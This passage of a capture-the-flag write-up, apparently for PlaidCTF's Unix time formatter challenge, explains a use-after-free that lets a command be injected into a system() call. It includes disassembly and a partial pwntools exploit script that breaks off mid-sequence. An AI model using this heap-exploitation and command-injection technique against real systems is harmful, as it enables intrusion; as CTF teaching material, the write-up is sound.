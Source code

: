 ```
0x00401006      b801000000     mov eax, 1
0x0040100b      488b4c2418     mov rcx, qword [rsp + 0x18]
0x00401010      6448330c2528.  xor rcx, qword fs:[0x28]
0x00401019      7405           je 0x401020
0x0040101b      e850f9ffff     call sym.imp.__stack_chk_fail
0x00401020      4883c428       add rsp, 0x28
0x00401024      c3             ret
```

# Vulnerability

To be able to execute arbitrary command through the `system` call, we need to be able to inject either a `;` or `&` in the `FORMAT`. To do that we can:

* allocate two strings for the timezone and format that are big enough to avoid being handled by the [fastbins] (in that order).
* Fake an exit to free both pointers. We will have [dangling pointers][dangling] in `TZ` and `FORMAT`.
* Set a new timezone. `malloc` will place it where the old timezone was. If the timezone is big enough we will be able to write on the `free`'d chunk that used to contain the format. In the timezone we can inject a command such as `ls -la`

# Payload

At first I tried to execute a shell, but it wasn't responding therefore I made a first payload to list the content of the current directory and then I modified it to read the content of the file containing the flag:

```python   
#!/usr/bin/env python2
# Please port pwntools to python3...
from pwn import *

r = remote('unix.pwning.xxx', 9999)
#r = remote('localhost', 9999)
# socat tcp-l:9999,reuseaddr,fork exec:./unix_time_formatter

def do_send(msg):
    print msg
    r.sendline(msg)

def do_recv(msg):
    print r.recvuntil(msg)

def do_it(r, s):
    do_recv(r)
    do_send(s)

do_recv('> ')
# Set a timezone
do_send('3') 
do_recv(': ')
do_send('A'*256)
do_recv('> ')
# Set a foramt
do_send('1')
do_recv(': ')
do_send('B'*256)
do_recv('> ')
# Exit
do_send('5')
do_recv('? ')
# Nope!
```

[plaidctf]: http://www.plaidctf.com/
[strdup]: http://man7.org/linux/man-pages/man3/strdup.3.html
[strspn]: http://man7.org/linux/man-pages/man3/strspn.3.html
[setenv]: http://man7.org/linux/man-pages/man3/setenv.3.html
[system]: http://man7.org/linux/man-pages/man3/system.3.html
[fastbins]: http://man7.org/linux/man-pages/man3/mallopt.3.html
[dangling]: https://en.wikipedia.org/wiki/Dangling_pointer